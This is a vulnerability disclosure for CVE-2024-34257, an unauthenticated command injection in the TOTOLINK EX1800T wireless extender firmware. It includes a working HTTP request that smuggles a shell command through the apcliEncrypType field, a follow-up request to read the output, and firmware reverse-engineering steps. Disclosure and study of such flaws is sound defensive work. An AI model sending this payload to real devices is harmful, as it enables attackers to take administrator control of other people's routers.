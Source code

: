 # TOTOLINK EX1800T has an unauthorized arbitrary command execution vulnerability

**1. Vulnerability description**

The TOTOLINK EX1800T wireless extender has a vulnerability in the apcliEncrypType parameter of its firmware version V9.1.0cu.2112_B20220316 that allows unauthorized execution of arbitrary commands, allowing an attacker to obtain device administrator privileges.

**2. Vulnerability recurrence**

Equipment: TOTOLINK EX1800T

Firmware version: V9.1.0cu.2112_B20220316

Manufacturer website information: https://www.totolink.net/

Firmware address: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/223/ids/36.html

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/0cddc228-46bd-4914-bc44-015d1f7cedf1)

Distribute CVE ID：CVE-2024-34257

Exploit POC:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 116
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset:utf-8
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/page/index.html?timestamp=1714114057910
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
"token":"",
"apcliEncrypType":"`id>../test.txt`",
"topicurl":"setWiFiExtenderConfig"
}
```

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/dca1e0a1-f453-4248-8fe3-f91225b41817)

View exploit results:

```
GET /test.txt HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/661bb8b8-87a5-4e9d-9c32-ca5e6d5df2fd)

**3. Vulnerability analysis**

Use the binwalk tool to extract the firmware file system:

```
binwalk -Me TOTOLINK_C8341E_EX1800T_WX032_MT7621MT7915_SPI_16M128M_V9.1.0cu.2112_B20220316_ALL_Easymesh.web
```

Use the grep tool to quickly find vulnerability parameters:

```
grep -rl apcliEncrypType
```

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/b81f7d7f-1f7b-485a-a951-ca08a67b7899)

Put the cstecgi.cgi file into the IDA tool for reverse analysis, trace the apcliEncrypType parameter to the LOAD:00408434 address, assign the parameter to $a1 and enter the sub_403600 function:

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/430c7fd9-a7d9-4db8-ae12-a4c7dd5c662e)

Following the sub_403600 function, we see that the v7 variable is formatted and brought into the CsteSystem function to execute system commands.

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/40cdc38a-debd-4ad8-bed4-1577d7b3a79d)
